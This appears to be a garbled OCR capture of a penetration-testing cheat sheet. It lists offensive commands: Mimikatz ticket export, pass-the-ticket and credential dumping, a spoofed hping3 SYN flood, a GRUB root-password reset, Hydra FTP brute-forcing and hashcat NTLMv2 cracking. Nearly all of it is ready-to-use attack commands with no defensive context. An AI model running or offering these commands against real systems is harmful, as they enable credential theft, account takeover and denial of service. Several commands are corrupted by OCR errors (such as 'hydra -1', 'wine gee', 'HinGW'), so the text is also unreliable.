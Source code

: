Or

```text
mimikatz# sekurlsa::tickets /export
mimikatz# kerberos::ptt <TICKET PATH>
```
Or

```text
#cleartext password and hash
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "token::elevate" "lsadump::secrets" "exit"
```

### Hping command3

```text
hping3 targetiP --flood --frag --spoof ip --destport # --syn
```

### Arping command

```text
./arping -I eth# -a # arps
```

### Wine command

```text
ed /root/.wine/drive e/HinGW/bin
wine gee -o file.exe /tmp/ eode.e
wine file.exe
```

### Grub software

```text
GRUB Henu: Add 'single' end of kernel line. Reboot. Change root password. reboot
```

### Hydra command

```text
hydra -1 ftp -P words -v targetiP ftp
```

## hashcat software

### NTLMv2 crack

```text
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt --force
```


## John the ripper software
